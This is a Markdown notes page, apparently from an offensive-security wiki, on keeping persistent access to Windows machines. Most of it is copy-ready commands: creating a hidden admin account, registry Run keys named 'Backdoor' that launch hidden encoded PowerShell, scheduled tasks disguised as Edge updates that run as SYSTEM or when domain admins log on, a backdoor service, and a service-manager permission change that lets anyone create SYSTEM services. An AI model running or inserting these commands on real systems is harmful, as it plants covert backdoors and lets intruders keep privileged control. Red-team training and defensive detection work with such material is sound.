 ```yaml
---
title: Windows Persistence
---
```


[[notes/mitre-attack/persistence]] on [[notes/windows/index]].

References:

- [Persistence techniques detected by PersistenceSniper](https://github.com/last-byte/PersistenceSniper/wiki/3-%E2%80%90-Detections)
- [UWP / Packaged Desktop Application Startup Persistence](https://github.com/nasbench/Misc-Research/blob/main/Other/UWP-Applications-Persistence.md)

# Account Creation

~~~ bat
net.exe user hacker P@ssw0rd1234 /add
net.exe localgroup administrators hacker /add
~~~

Untested tools:

- [CreateHiddenAccount](https://github.com/wgpsec/createhiddenaccount)

# Startup Folder

As unprivileged user write an executable or LNK file into the autostart folder at `%USERPROFILE%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\` or as local admin at `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\`.
It will be executed on logon in the users context.

`grpconv.exe` can be used to create files inside the autostart folder ([Source](https://mobile.twitter.com/cyb3rops/status/1526952076940652546)).

First write `%userprofile%\setup.ini`:

~~~
[progman.groups]
group001=Startup

[group001]
"FILENAME",PROGRAM,ICON,0,UNKNOWN,UNKNOWN,UNKNOWN
"Relative Calculator",calc.exe,calc.exe,0,,,
"Absolute Calculator",C:\Windows\System32\calc.exe,C:\Windows\System32\calc.exe,0,,,
"Calculator over CMD",cmd /c calc,calc.exe,0,,,
~~~

Then execute `grpconv.exe -o` to create the entry.

> **Note:**
> It is possible to use some environment variables in the *PROGRAM* field.
> For example `%comspec%` works, but `%userprofile%` doesn't, because `C:\` gets prepended somehow.

References:

- [persistence-info.github.io/data/startupfolder.html](https://persistence-info.github.io/Data/startupfolder.html)

# Registry Autorun Keys

As unprivileged user execute a command when the user logs in.

=== "builtin"
    ~~~ bat
    reg.exe add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v Backdoor /t REG_SZ /d "powershell.exe -w hidden -noni -nop -ep bypass -e %PAYLOAD%"
    reg.exe add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce" /v Backdoor /t REG_SZ /d "powershell.exe -w hidden -noni -nop -ep bypass -e %PAYLOAD%"
    ~~~

As local admin execute a command when any user logs in (in the users context).

=== "builtin"
    ~~~ bat
    reg.exe add HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v Backdoor /t REG_SZ /d "powershell.exe -w hidden -noni -nop -ep bypass -e %PAYLOAD%"
    ~~~

References:

- [persistence-info.github.io/data/run.html](https://persistence-info.github.io/Data/run.html)

# Scheduled Task

As unprivileged user execute a command every hour.

=== "[[notes/tools/sharpersist]]"
    ~~~ bat
    .\SharPersist.exe -t schtask -n "MicrosoftEdgeUpdateTaskMachine" -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-w hidden -noni -nop -e %PAYLOAD%" -o daily -m add
    ~~~

=== "builtin"
    ~~~ bat
    schtasks.exe /create /tn "MicrosoftEdgeUpdateTaskMachine" /tr "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -w hidden -noni -nop -ep bypass -e %PAYLOAD%" /sc daily
    ~~~

As local admin execute a command on boot.

=== "bulitin"
    ~~~ bat
    schtasks.exe /create /tn "MicrosoftEdgeUpdateTaskMachine" /tr "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -w hidden -noni -nop -ep bypass -e %PAYLOAD%" /sc onstart /ru "NT Authority\SYSTEM" /rl highest
    ~~~

As local admin, execute a command when a member of a high value group logs in.

=== "builtin"
    ~~~ bat
    schtasks.exe /create /tn "MicrosoftEdgeUpdateTaskMachine" /tr "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -w hidden -noni -nop -ep bypass -e %PAYLOAD%" /sc onlogon /ru "corp.local\domain admins" /rl highest
    ~~~

Remove a scheduled task.

=== "builtin"
    ~~~ bat
    schtasks.exe /delete /tn "MicrosoftEdgeUpdateTaskMachine" /f
    ~~~

References:

- [persistence-info.github.io/data/taskscheduler.html](https://persistence-info.github.io/Data/taskscheduler.html)

# Service

Create a service as local admin.

=== "builtin"
    ~~~ bat
    sc.exe create XboxNetApi binPath= "C:\Program Files\Vendor\Backdoor.exe" start= auto
    sc.exe start XboxNetApi
    ~~~

As local admin allow everybody to create a service that runs as `system` ([source](https://twitter.com/0gtweet/status/1628720819537936386)).

=== "builtin"
    ~~~ bat
    sc.exe sdset scmanager D:(A;;KA;;;WD)
    ~~~

References:

- [persistence-info.github.io/data/services.html](https://persistence-info.github.io/Data/services.html)

# WMI Event Subscription

Under construction 🚧

# DLL Hijacking

Under construction 🚧

As local admin on a Windows Server write `wlanapi.dll` anywhere into the system `PATH`, then trigger NetMan from an interactive session trough COM ([source](http://web.archive.org/web/20230629210511/https://itm4n.github.io/windows-server-netman-dll-hijacking/)).

# COM Hijacking

Under construction 🚧
